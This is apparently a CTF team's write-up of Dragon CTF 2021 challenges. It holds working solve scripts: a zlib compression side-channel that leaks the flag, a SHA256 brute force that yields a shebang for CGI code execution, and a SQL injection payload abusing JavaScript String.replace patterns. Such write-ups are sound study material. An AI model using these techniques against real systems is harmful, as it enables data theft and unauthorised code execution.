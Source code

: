 # Dragon CTF 2021

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20211127-dragonctf2021/) of this writeup.**


 - [Dragon CTF 2021](#dragon-ctf-2021)
   - [Crypto](#crypto)
     - [CRC Recursive Challenge](#crc-recursive-challenge)
   - [Misc](#misc)
     - [Compress The Flag](#compress-the-flag)
     - [CTF Gateway Interface](#ctf-gateway-interface)
   - [Web](#web)
     - [Webpwn](#webpwn)
   - [Pwn](#pwn)
     - [Shellcode_verifier](#shellcode_verifier)
     - [Dragonbox](#dragonbox)



## Crypto
### CRC Recursive Challenge
[Code](https://gist.github.com/sasdf/78fa4f4c9dc9db93534e4742b1de92e1)


## Misc

### Compress The Flag

> bookgin


We got firstblood of this challenge!

If the charater we guessed is correct, zlib compressed size will remain the same.

```python=
#!/usr/bin/env python3
import socket
import string
chars = string.ascii_uppercase + 'grn{}'

def get_zlib(res):
    for l in res.decode().splitlines():
        if 'zlib' in l:
            return int(l.strip().rpartition(' ')[-1])
    assert False

def guess_with_prefix(flag):
    if len(flag) == 25:
        print(flag)
        import random
        random.seed(0)
        l = [i for i in range(25)]
        random.shuffle(l)
        print(l)
        new_l = [None for _ in range(25)]
        for src, dst in enumerate(l):
            new_l[dst] = flag[src]

        print(''.join(new_l))
        # DrgnS{THISISACRIMEIGUESS}
        exit(0)
    print('guess prefix ' + repr(flag))
    gz2cs = {}
    for c in chars:
        print('g', c)
        guess = (flag + c) * 30
        s.sendall(('0:' + guess + '\n').encode())
        gz = get_zlib(s.recv(4096))
        gz2cs[gz] = gz2cs.get(gz, '') + c
    min_gz = min(gz2cs.keys())
    if len(gz2cs[min_gz]) == len(chars):
        print('give up prefix ' + repr(flag))
        return
    for c in gz2cs[min_gz]:
        guess_with_prefix(flag + c)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    #s.connect(('127.0.0.1', 1337))
    s.connect(('compresstheflag.hackable.software', 1337))
    s.recv(1024)
    guess_with_prefix('')
```

### CTF Gateway Interface

> written by bookgin, solved by ginoah

In the session file, though we can run it through `/cgi-bin/session_<HEX>`, but the content is a SHA256 hash which cannot be easily controlled.

Fortunately, in order to get the flag, we just need to run `./x`. Therefore, we can brute-force the hash to make the start of the hash become *shebang* `#!x\n`.

Brute-force 4 bytes in SHA256 is doable.

```python
#!/usr/bin/python3
import hashlib
import os
import sys
import random
SALT = b"SaltyMcSaltFace"

while True:
    password = str(random.randint(0, 0x100000000000000)).encode()
    hash = hashlib.sha256(SALT + password).digest()
    if hash.startswith(b'#!x\n'):
        open('log', 'a').write(repr(password) + ':' + repr(hash[:4]) + '\n')
        
# 53594042019754885 - > #!x\n
```

Next, visit the following link to run `x` and retrieve the flag.

```sh
/cgi-bin/startAuth.cgi?password=53594042019754885
/cgi-bin/session_bab090dafa836740e3b10e4f7ad167988afb06f2
```

Flag: `DrgnS{valisMadeMeChangeTheFlagPfff}`

## Web

### Webpwn

> written by bookgin, solved by Paul Huang, kaibro, ginoah

javascript String.replace supports [some interesting feature](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace). This bug/feature is even [present in CTFd](https://github.com/CTFd/CTFd/issues/1662)


session is aac762ef0044d46ad245622acf5c6f35.
Here is the payload:

```
{
    "key":"IS NULL),($$$$e2$$$$,$$$$aac762ef0044d46ad245622acf5c6f35$$$$,(select flag from flag))--",
    "data":"$`"
}

```

flag is in the note of e2
`DrgnS{Everything_is_easy_wh3n_y0u_have_$$$_4b8c61}`


## Pwn


### Shellcode_verifier
[script](https://github.com/st424204/ctf_practice/tree/master/Dragon_CTF_2021/Shellcode_verifier)

### Dragonbox
[script](
https://github.com/st424204/ctf_practice/tree/master/Dragon_CTF_2021/Dragonbox)
